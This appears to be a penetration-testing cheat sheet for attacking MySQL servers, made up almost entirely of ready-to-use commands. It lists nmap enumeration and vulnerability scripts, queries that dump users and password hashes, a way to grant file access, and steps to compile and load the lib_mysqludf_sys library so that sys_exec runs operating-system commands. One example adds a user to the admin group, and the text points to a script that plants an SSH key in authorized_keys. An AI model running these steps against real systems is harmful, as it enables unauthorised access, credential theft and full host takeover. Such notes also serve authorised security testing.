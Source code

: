 #### nmap
`nmap --script=mysql-databases.nse,mysql-empty-password.nse,mysql-enum.nse,mysql-info.nse,mysql-variables.nse,mysql-vuln-cve2012-2122.nse <ip> -p 3306`

#### Interesting files
`~/.mysql_history`    
`mysqli_connect.php`

####Command line
+ **connect** `mysql -h <ip> -P <port> -u <user> -p <password>`
+ **list databases** `show databases;`
+ **select database** `use <database>`
+ **list tables** `show tables;`
+ **mysql users** `use mysql; select * from user;`
+ **current user grants** `show grants;`

#### Tricks

+ Get version, current user, current database, hostname, database files location
```SQL
select @@version
select user(); select system_user()
select database()
select @@hostname
select @@datadir
```
+ List users and hashes (requires privileges)
```SQL
select host, user, password from mysql.user
```
+ Querying for all values in a column in a single string
```SQL
select group_concat(name separator %27,%27) from users
select group_concat(cast(uid as char(50)) separator %27,%27) from users
```
+ Grant file access to a user
```SQL
GRANT FILE ON *.* TO '<user>'@'localhost'
```
http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

####Executing system commands
http://www.iodigitalsec.com/mysql-root-to-system-root-with-udf-for-windows-and-linux/

Check if this file exists    
`/usr/lib/lib_mysqludf_sys.so`    
`whereis lib_mysqludf_sys.so`

+ If it does

```
mysql -u root -p
...
mysql> select sys_exec('<command>');
```

`sys_exec` returns the exit status and `sys_eval` returns the standard output

This will add a user to the admins group    
`mysql> select sys_exec('usermod -a -G admin <user>');`

+ If user has privileges, copy `lib_mysqludf_sys.so` file
Compile it using    
```
git clone https://github.com/mysqludf/lib_mysqludf_sys
gcc -fPIC -Wall -I/usr/include/mysql -I. -shared lib_mysqludf_sys.c -o ./lib_mysqludf_sys.so
```

Use [mysql.sh](mysql.sh) to install `lib_mysql_udf` and add your key to `authorized_keys`

